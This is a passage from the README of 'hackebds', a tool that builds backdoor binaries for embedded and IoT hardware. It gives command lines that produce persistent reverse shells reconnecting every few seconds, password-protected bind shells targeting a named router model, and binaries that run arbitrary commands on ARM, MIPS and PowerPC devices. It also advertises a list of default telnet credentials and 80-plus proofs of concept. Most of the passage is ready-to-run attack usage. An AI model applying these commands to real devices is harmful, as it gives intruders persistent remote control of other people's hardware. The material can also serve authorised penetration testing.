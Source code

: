    If you need to generate a backdoor and constantly create reverse shells (the CPU occupied by the test is about% 8)

   ```
   hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file -shell bash -power
   ```

   If you need to create a reverse shell every 5 seconds

   ```
   hackebds -reverse_ip 127.0.0.1 -reverse_port 9999 -arch mipsel -res reverse_shell_file -power -sleep 5
   ```

   ![image-20221102183017775](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102183017775.png)

   ```
   hackebds -bind_port 8080 -passwd 1234 -arch mips -model DIR-823 -res bind_shell
   ```

   Create bind_shell to monitor the shell as sh, -power fuction can give -shell bash	

   ```
   hackebds -bind_port 8081 -arch armelv7 -res bind_shell -passwd 1231 -power
   ```

   The bind_shell process will not stop after being disconnected, and supports repeated connections (currently this function is not supported by powerpc and sparc series)

   ![image-20221102182939434](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102182939434.png)

   

   Generate cmd_file function is updated. Only need to specify the - cmd parameter to generate programs for various architectures to execute corresponding commands , -envp Environment variables are separated by commas

   ```
   hackebds  -cmd "ls -al /" -arch powerpc  -res cmd_file
   ```

   ![image-20230106153459125](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20230106153459125.png)

   The list relationship between the output model and the architecture is added to the function of generating the back door of the specified model to facilitate the user to observe and modify. The output information will be enhanced after version 0.3.5, such as (100+ device information, POC80+or so):
   Function of equipment
   Architecture of equipment
   Device CPU manufacturer
   Device CPU model
   WEB service program of the device
   Device default SSH service support
   Can monitoring be realized
   Device default telnet user password
   Device sdk support
   Openwrt support for devices
   Whether the device is vulnerable
   POC output
